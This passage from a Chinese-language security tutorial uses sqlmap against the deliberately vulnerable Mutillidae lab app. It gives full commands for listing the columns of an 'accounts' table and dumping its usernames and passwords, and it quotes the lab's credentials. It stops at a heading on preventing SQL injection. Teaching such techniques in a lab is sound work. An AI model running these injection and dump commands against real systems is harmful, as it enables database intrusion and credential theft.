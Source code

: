 现在，如果我们想要获取列，我们可以再次使用相同的命令，我们将从`-T accounts -D owasp10`获取`--columns`。以下是命令：

```
sqlmap -u "http://10.20.14.204/mutillidae/index.php?page=user-info.php&password=aaa&user-info-php-submit-button=View+Account+Details" --columns -T accounts -D owasp10
```

以下是命令的输出：

![](img/ef54dd84-cc2c-491f-8fef-c9e273708dd5.png)

所以，我们有`is_admin`、`password`和`username`，我们可以使用`--dump`选项获取它们的数据。这是我们之前使用的相同命令，因此我们从`accounts`表和`owasp10`数据库获取它们。以下是命令：

```
sqlmap -u "http://10.20.14.204/mutillidae/index.php?page=user-info.php&password=aaa&user-info-php-submit-button=View+Account+Details" -T accounts -D owasp10 --dump
```

以下是前述命令的输出：

![](img/c9d0babf-536f-4438-9854-c9d73f894280.png)

在上述截图中，我们有`admin`，其`adminpass`密码，还有`adrian`，他的密码是`somepassword`。所以，正如我们所说，这个工具非常有用。它可以让我们的生活变得更加轻松，而且一切都是自动的。

# 防止 SQL 注入
